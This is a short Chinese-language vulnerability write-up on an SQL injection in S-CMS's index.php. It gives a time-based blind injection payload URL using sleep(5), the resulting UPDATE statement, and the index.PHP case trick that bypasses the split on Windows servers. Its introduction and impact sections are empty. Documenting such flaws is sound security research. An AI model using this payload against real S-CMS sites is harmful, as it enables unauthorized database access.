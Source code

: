 # S-CMS sql注入漏洞（二）

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

漏洞位置：index.php

![](images/15893385071979.jpg)


跟进函数splitx()


```bash
function splitx($a, $b, $c)
{
    $d = explode($b, $a);
    return $d[$c];
}
```

先上payload


```bash
http://url/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir
```

拼凑SQL语句


```sql
update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#'
```

解释

`$_SERVER[‘PHP_SELF’]：`获取当前文件的路径

如：`127.0.0.1/xxe/xml.php => /xxe/xml.php`

`explode(separator,string,limit)：`分割字符串形成数组

`separator`：规定在哪里分割字符串。

`string：`要分割的字符串。

`limit：`规定所返回的数组元素的数目。

如果使用index.php，结果如下：


```php
array (size=2)
  0 => string '/index.php/' (length=5)
  1 => string '/a' where if(1,sleep(5),1)#' (length=27)
```

被截断，但若使用index.PHP：


```php
array (size=1)
  0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39)
```

前提：Windows系统下不区分文件大小写。

**参考链接**

http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/